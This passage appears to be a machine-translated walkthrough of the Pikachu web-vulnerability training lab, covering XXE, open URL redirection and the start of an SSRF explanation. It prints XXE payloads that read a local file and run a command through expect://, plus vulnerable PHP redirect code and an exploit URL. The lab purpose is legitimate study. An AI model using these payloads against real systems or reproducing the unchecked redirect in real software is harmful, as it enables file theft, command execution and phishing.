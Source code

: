Enter paylaod, the set value will pop up

<?xml version = "1.0"?>
<!DOCTYPE note [
     <!ENTITY hacker "admin">
]>
<name>&hacker;</name>


payload, please make sure that the target path has this file
  
<?xml version = "1.0"?>
<!DOCTYPE note [
<!ENTITY aaa SYSTEM "file:///c:/1.txt">]>
<name>&aaa;</name>
  
Under linux, you can also enter such a payload

<?xml version = "1.0"?>
<! DOCTYPE ANY [
     <!ENTITY f SYSTEM "expect://ifconfig">
]>
<x>&f;</x>
URL redirection
The problem of unsafe url redirection may occur in all places where url address redirection is performed.

If the backend uses the parameters passed in from the frontend (maybe user parameters, or the url address pre-embedded in the frontend page) as the jump destination, and no judgment is made

The problem of "jumping the wrong object" may occur.

The more direct harm of url redirection is: Phishing, that is, the attacker uses the domain name of the vulnerable party (for example, a relatively well-known company domain name often allows users to click on it with confidence) to cover up, and the final redirection is indeed a phishing website, the general process Yes, jump to vulnerability --> phishing page --> submit username and password --> jump back

Server-side core code

if(isset($_GET['url']) && $_GET['url'] != null){
     $url = $_GET['url'];
     if($url == 'i'){
         $html.="<p>Okay, I hope you can stick to being yourself!</p>";
     } else {
         header("location:{$url}");
     }
}
exploit

payload: http://<IP address !!!>/pikachu/vul/urlredirect/urlredirect.php?url=https://www.baidu.com

SSRF
Most of the reasons for its formation are that the server provides the function of obtaining data from other server applications, but does not strictly filter and limit the target address, so that the attacker can pass in any address to let the back-end server initiate a request to it , and return the data requested by the target address
